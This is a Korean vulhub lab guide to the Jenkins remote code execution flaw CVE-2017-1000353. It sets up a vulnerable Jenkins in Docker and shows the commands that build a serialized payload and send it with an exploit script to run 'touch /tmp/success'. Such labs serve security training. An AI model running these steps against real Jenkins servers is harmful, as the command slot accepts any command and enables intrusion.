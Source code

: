 # Whitehat School `vulhub` 한글판
# Jenkins-CI 원격 코드 실행 취약점（CVE-2017-1000353）

## 원리

참고 :  https://blogs.securiteam.com/index.php/archives/3171

## 환경 구축

다음 명령을 실행해 jenkins 2.46.1 시작:

```
docker compose up -d
```

부팅이 완료되면 `http://your-ip:8080` 를 방문해 jenkins가 설치되어 있는것을 확인할 수 있다.

## 테스트 과정

### 1. Serialize 문자열 생성
참고 <https://github.com/vulhub/CVE-2017-1000353>

먼저 CVE-2017-1000353-1.1-SNAPSHOT-all.jar 다운받습니다. 이것은 POC를 생성하는 도구입니다.

다음 명령을 실행하여 바이트 코드 파일 생성 :

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser 생성된 바이트 코드 파일 이름
# "touch ..." 실행할 명령
```

코드를 실행하면 jenkins_poc.ser 파일이 생성된다. 이것은 직렬화된(Serialize) 문자열이다.

### 2. 패킷 전송, 명령 실행

[exploit.py]다운로드 https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py,

python3 실행 `python exploit.py http://your-ip:8080 jenkins_poc.ser`

방금 생성한 바이트 코드 파일을 대상에게 보냅니다:

![](1.png)

docker에 들어가면 /tmp/success가 성공적으로 생성되어 취약점을 이용한 공격이 성공했음을 확인할 수 있다.